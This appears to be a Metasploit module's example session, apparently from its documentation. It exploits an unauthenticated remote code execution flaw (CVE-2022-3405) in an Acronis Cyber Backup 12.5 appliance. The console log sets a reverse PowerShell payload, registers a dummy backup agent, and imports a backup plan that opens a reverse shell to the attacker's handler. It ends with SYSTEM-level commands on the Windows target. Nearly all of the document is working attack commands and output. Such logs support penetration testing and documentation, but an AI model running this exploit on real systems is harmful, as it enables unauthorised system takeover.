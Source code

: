 ### Acronis Cyber Backup 12.5 build 14330 VMware appliance - Windows target
```msf
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set target 1
target => 1
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set output json
output => json
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set payload cmd/windows/reverse_powershell
payload => cmd/windows/reverse_powershell
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Retrieve the first access token.
[*] Register a dummy backup agent.
[*] Dummy backup agent registration is successful.
[*] Retrieve the second access token.
[+] The target appears to be vulnerable. Acronis Cyber Protect/Backup 12.5.14330
[*] Retrieve first online target registered at the Acronis Cyber Protect/Backup appliance.
[+] Configuration details are successfully saved in json format to /root/.msf4/loot/20241023124641_default_192.168.201.6_acronis.cyber.pr_949551.bin
[*] Found online target matching your target setting Windows Command.
[+] hostId: 28BAFD9F-F9F1-481F-A970-1A6ED70736AC
[+] parentId: phm-group.7C2057CC-8D32-40CA-9B83-4A8E73078F7F.disks
[+] key: phm.0CA16CD4-1C6D-44D2-BEF1-B9F146005EE1@28BAFD9F-F9F1-481F-A970-1A6ED70736AC.disks
[*] type: machine
[*] hostname: WIN-BJDNH44EEDB
[*] IP: 192.168.201.5
[*] OS: Microsoft Windows Server 2019 Standard
[*] ARCH: windows
[*] ONLINE: true
[*] Import backup plan with payload for target with hostId: 28BAFD9F-F9F1-481F-A970-1A6ED70736AC.
[*] Executing Windows Command with payload cmd/windows/reverse_powershell
[*] Command shell session 23 opened (192.168.201.8:4444 -> 192.168.201.5:49780) at 2024-10-23 12:46:51 +0000
[+] Backup plan is successful removed.


Shell Banner:
Microsoft Windows [Version 10.0.17763.107]
-----


C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>systeminfo
systeminfo

Host Name:                 WIN-BJDNH44EEDB
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00429-70000-00000-AA946
Original Install Date:     1/26/2023, 10:05:52 AM
System Boot Time:          10/23/2024, 2:44:05 PM
```